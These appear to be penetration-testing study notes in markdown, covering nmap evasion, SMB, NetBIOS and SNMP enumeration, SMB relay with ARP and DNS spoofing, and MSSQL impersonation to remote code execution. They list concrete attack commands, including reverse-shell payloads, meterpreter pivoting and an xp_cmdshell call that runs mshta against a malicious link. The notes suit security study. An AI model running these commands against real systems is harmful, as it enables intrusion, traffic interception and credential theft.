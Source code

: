 # Network

## Firewall and IDS

**Detect and evasion:**
- `-sA` (scan ACK ping) can be use to detect firewall, the result show `filtered` or `unfiltered`
- `-f` fragment packet. `--mtu` (minimum transfer unit size) custom packet size (`-f --mtu 32` packet with 32 bytes of data)
- `-D` decoy `-D 10.10.21.1,10.10.21.2`
- `g` Change source port `-g 53`
- `--data-length 200`
- `-n` disable DNS resolution
- `--ttl` set time to live time

## SMB and NetBIOS Enum

Both is file sharing service but different technology
- NetBIOS is an API and set of network protocols, provide communication service between device on local network. NetBIOS include:
  - Name services (NetBIOS-NS) ~ 137
  - Datagram services (NetBIOS-DGM) ~ 138
  - Sessions service (NetBIOS-SSN) ~ 139

Tools:
- `nbtscan <target>` Scan network for NetBIOS name
- `nmblookup -A <target>`
- `nmap -sU -p 137 <target>` Check for Name Service of NetBIOS is running (it UDP)
  - `nmap -sU -sV -p 137 <target> --script nb_stat.nse -n` We can try this script to get the service name

**For Smb** 
- `nmap -p445 --script smb-protocols <target>` Check for protocols that target supported 
- `nmap -p445 --script smb-security-mode <target>` Security level that SMB config
- `nmap -p445 --script smb-enum-users.nse <target>` Enum user
- Use `hydra` to crack password
- Or we use `windows/smb/psexec` for connection, set payload to reverse_tcp
- After exploit and have meterpreter, we can `run autoroute -s <target_2_subnet>` to gain access to target 2 that only be connect via target 1
  - Or we can setup `proxychains` and module `socks` of `msf` to access the target from host machine 
  - Proxychanins usually run on port `9050`, see config in `/etc/proxychains4.conf`
  - After that we use `use auxiliary/server/socks_proxy`, `set SRVPORT 9050` `set VERSION 4a ` -> run
  - Now we can access the target 2 from host command with `proxychains nmap <target2> -sT -Pn -sV -p 445`
- shell `net view <target>` view share of target
- `net use D: \\<target>\<share>` Assign disk to share -> `dir D:`

## SNMP

Protocols Use for monitor and manage network devices, like routers, switch, printer, fax, ...
- Application protocols
- Have 3 part:
  - SNMP manager
  - SNMP agent
  - Management infomation base (MIB): Datatbase that define structure of data available through SNMP, each piece of data have unique ID call `OID`
- Port: 161 for SNMP query, 162 for SNMP trap (Infor agent send to Manager)

**Exploit**
- `nmap -sU -p 161 <target>` -> `nmap -sU -p161 --script=snmp-* <target>` collect infor from script 
- Brute for communication string `nmap -sU -p 161 --script=snmp-brute <target>`
  - `snmp-win32-users` enum user on system -> use for hydra later
  - `snmp-processes` enum process run on system
    - `snmp-win32-services` enum services run on system
  - `snmp-interface` enum network interface of system
    - `snmp-netstat` enum net stat
  - `snmp-softwares` enum software install on system
- For more info, use `snmpwalk -v 1 -c public <target>`, `-v` is version, `-c` is channel that we detected with `snmp-brute`

## SMB relay

Is a type of attack where attacker intercept SMB traffic, change it and relays it to a legitimate server to gain access. Steps of attack:
- Interception
- Capture authentication
- Relay to a legitimate server
- Gain Access

How to exploit:
- Open `msfconsole` -> search `smb_relay` use reverse_tcp payload 
  - `set srvhost <host_ip>` `set lhost <host_ip>`
  - `set smbhost <target_ip>`
- Setup dns spoofing by `echo "<host_ip> *.<target_domain>" > dns` Ex: `echo "10.10.1.1 *.example.com" > dns`
  - Run `dnsspoof -i eth1 -f dns` `-i` network interface, `-f` file
- Run `arpspoof -i eth1 -t <victim_ip> <smb_server>` and `echo 1 > /proc/sys/net/ipv4/ip_forward` for perform an ARP poisoning attack to intercept and manipulate traffic between a victim and a target system.

## MSSQL User impersonation to RCE

Port: 1433

- `nmap --script ms-sql-info -p 1433 <target>` Enumeration some info.
- Use `mssqlclient.py <user>:<pass>` to access (scnerio: We already have user accout)
  - `select @@version;`
  - Default user control account for mssql is `sysadmin`
  - `select loginname from syslogins where sysdamin = 1;` Check if the user belong to `sysadmin` role
  - `enable_xp_cmdshell` Check if we can open cmd shell
- Check any user impersonate available with `SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'`
  - After output the user that we can impersonate. 
  - `select system_user` View user -> `execute as login = '<user>'`
  - `enable_xp_cmdshell` -> Setup `hta-server` module -> `exec xp_cmdshell "mshta.exe <malicous_link>`

---

- Use `mssql_login` to brute force
- Use `mssql_payload` To inject payload and get meterpreter. Need to setup LHOST and LPORT